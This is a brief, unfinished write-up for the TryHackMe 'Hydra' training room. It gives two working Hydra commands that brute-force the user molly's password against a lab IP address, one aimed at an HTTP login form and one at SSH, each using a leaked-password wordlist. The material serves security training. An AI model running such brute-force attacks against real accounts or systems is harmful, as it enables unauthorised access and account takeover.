 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

Add steps later

**Use Hydra to bruteforce molly's web password. What is flag 1?**

Web&#x20;

hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^\&password=^PASS^:F=incorrect" -V

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

SSH&#x20;

hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V
